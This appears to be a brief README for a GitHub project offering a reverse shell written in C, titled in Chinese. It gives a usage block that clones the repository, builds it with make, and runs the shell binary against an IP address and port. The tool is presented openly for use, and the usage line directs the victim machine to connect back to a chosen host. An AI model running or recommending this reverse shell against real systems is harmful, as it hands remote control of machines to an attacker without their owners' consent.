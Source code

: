 # c语言版本的 反弹shell
# 用法：
'''c
	git clone git@github.com:wantongtang/cBackShell.git
	make 
	./shell 192.168.1.23  58
'''c	
